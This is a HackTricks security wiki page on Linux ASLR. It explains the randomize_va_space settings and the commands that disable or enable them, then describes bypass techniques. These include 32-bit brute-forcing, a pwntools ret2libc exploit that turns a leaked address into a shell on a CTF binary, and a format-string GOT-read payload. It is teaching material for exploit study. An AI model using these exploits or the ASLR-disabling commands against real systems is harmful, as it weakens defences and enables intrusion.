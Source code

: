 # ASLR

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

**Address Space Layout Randomization (ASLR)** is a security technique used in operating systems to **randomize the memory addresses** used by system and application processes. By doing so, it makes it significantly harder for an attacker to predict the location of specific processes and data, such as the stack, heap, and libraries, thereby mitigating certain types of exploits, particularly buffer overflows.

### **Checking ASLR Status**

To **check** the ASLR status on a Linux system, you can read the value from the `/proc/sys/kernel/randomize_va_space` file. The value stored in this file determines the type of ASLR being applied:

* **0**: No randomization. Everything is static.
* **1**: Conservative randomization. Shared libraries, stack, mmap(), VDSO page are randomized.
* **2**: Full randomization. In addition to elements randomized by conservative randomization, memory managed through `brk()` is randomized.

You can check the ASLR status with the following command:

```bash
cat /proc/sys/kernel/randomize_va_space
```

### **Disabling ASLR**

To **disable** ASLR, you set the value of `/proc/sys/kernel/randomize_va_space` to **0**. Disabling ASLR is generally not recommended outside of testing or debugging scenarios. Here's how you can disable it:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

You can also disable ASLR for an execution with:

```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```

### **Enabling ASLR**

To **enable** ASLR, you can write a value of **2** to the `/proc/sys/kernel/randomize_va_space` file. This typically requires root privileges. Enabling full randomization can be done with the following command:

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

### **Persistence Across Reboots**

Changes made with the `echo` commands are temporary and will be reset upon reboot. To make the change persistent, you need to edit the `/etc/sysctl.conf` file and add or modify the following line:

```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```

After editing `/etc/sysctl.conf`, apply the changes with:

```bash
sudo sysctl -p
```

This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX divides the process address space into **3 groups**:

* **Code and data** (initialized and uninitialized): `.text`, `.data`, and `.bss` —> **16 bits** of entropy in the `delta_exec` variable. This variable is randomly initialized with each process and added to the initial addresses.
* **Memory** allocated by `mmap()` and **shared libraries** —> **16 bits**, named `delta_mmap`.
* **The stack** —> **24 bits**, referred to as `delta_stack`. However, it effectively uses **11 bits** (from the 10th to the 20th byte inclusive), aligned to **16 bytes** —> This results in **524,288 possible real stack addresses**.

The previous data is for 32-bit systems and the reduced final entropy makes possible to bypass ASLR by retrying the execution once and again until the exploit completes successfully.

#### Brute-force ideas:

* If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

* If attacking a remote server, you could try to **burte-force the address of the `libc` function `usleep`**, passing as argument 10 (for example). If at some point the **server takes 10s extra to respond**, you found the address of this function.

{% hint style="success" %}
In 64bit systems the entropy is much higher and this isn't possible.
{% endhint %}

### Having a leak

* **Challenge is giving a leak**

If you are given a leak (easy CTF challenges), you can calculate offsets from it (supposing for example that you know the exact libc version that is used in the system you are exploiting). This example exploit is extract from the [**example from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (check that page for more details):

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

* **ret2plt**

Abusing a buffer overflow it would be possible to exploit a **ret2plt** to exfiltrate an address of a function from the libc. Check:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Just like in ret2plt, if you have an arbitrary read via a format strings vulnerability it's possible to exfiltrate te address of a **libc function** from the GOT. The following [**example is from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):

```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```

You can find more info about Format Strings arbitrary read in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret

Try to bypass ASLR abusing addresses inside the stack:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
